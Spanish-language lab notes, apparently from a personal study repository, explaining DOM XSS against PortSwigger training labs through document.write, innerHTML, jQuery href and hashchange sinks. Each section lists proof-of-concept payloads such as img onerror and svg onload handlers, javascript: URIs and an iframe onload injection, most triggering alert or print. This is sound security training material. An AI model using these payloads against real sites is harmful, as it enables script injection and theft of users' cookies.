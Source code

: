 # DOM XSS

Tags: #XSS #PortSwigger #JavaScript #DOM 

* [DOM - Introduccion](https://lenguajejs.com/dom/introduccion/que-es/)

```bash 
# Para este tipo de ataque, se debe de buscar la manera de poder inyectar codigo JavaScript

1. Mirar el codigo fuente en donde se esta colocando texto, puede ser en 'img src=" ">'
2. Ver la manera de poder cerrar alguna comilla para poder inyectar codigo JavaScript

Notas:
	1. En un DOM XSS, el HTML con la inyección no viene del servidor. Si no que se construye y se ejecuta en nuestro navegador a traves de JavaScript 
```

## DOM XSS  con 'document.write' y 'location.search'

```javascript 
// Se debe cerrar la doble comilla y la etiqueta del código para poder ejecutar JavaScript y acontecer el XSS

	"> <svg/onload=alert(1)>
	"> <img src/onerror=alert(document.domain)>
```

## DOM XSS con 'innerHTML' y 'location.search'

```javascript 
// InnerHTML permite alterar uno o varios elementos del DOM sin afectar el resto de la página

	<img src="test.png">        // Cargar una imagen 
	<img src=0 onerror=alert(document.cookie)>    // Usar el error para cargar código JavaScript
```

## DOM XSS en 'href' con JQuery y 'location.search'  

```javascript 
// Se puede buscar los siguientes elementos cuando se tiene "JQuery library's $ selector function"
	$('a') -> <a>
	$('#id') -> id="id"
	$('.clase') -> class="clase"


// En 'href' se puede hacer que en lugar de que vaya a la url, esta ejecute una instrucción
	javascript:alert(document.cookie)
```

## DOM XSS con JQuery y evento 'hashchange'

```javascript 
// El selector de JQuery te crea temporalmente un elemento, esto funciona en la url del navegador 

	#<img src=0 onerror=alert(0)> 

// Se debe forzar un cambio a la solicitud, ya que de primera si funciona pero despues ya no ya que como cvarga el mismo contenido, la función no 'funciona' 
	#<img src=0 onerror=print()> 

// Utilizar el server que comparte el lab, utilizar 'iframe html' y forzar el cambio 
	<iframe src="http://web.com/#"></iframe>       // Forma original 

// Forma concatenada para cargar otro contenido y forzar el cambio 
	<iframe src="http://web.com/#" onload="this.source += '<img src=0 onerror=alert(0)>' "></iframe> 
	<iframe src="http://web.com/#" onload="this.source += '<img src=0 onerror=print()>' "></iframe>
```